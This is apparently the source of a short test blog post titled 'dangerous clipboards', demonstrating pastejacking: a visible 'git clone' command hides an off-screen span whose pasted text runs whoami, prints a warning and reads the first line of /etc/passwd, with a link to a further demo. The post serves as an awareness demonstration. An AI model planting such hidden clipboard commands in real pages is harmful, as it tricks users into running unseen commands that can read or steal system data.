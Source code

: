 ```yaml
---
layout: "post"
title: "dangerous clipboards"
date: "2018-03-06 09:09"
---
```

TEST post...


    <p class="codeblock">
      <!-- Oh noes, you found it! credits go to http://thejh.net/misc/website-terminal-copy-paste-->
      git clone
      <span style="position: absolute; left: -100px; top: -100px">/dev/null; clear; echo -n "Hello ";whoami|tr -d '\n';echo -e '!\nThat was a bad idea. Don'"'"'t copy code from websites you don'"'"'t trust!<br>Here'"'"'s the first line of your /etc/passwd: ';head -n1 /etc/passwd<br>git clone </span>
      git://git.kernel.org/pub/scm/utils/kup/kup.git
    </p>

# another one:
view-source:https://security.love/Pastejacking/
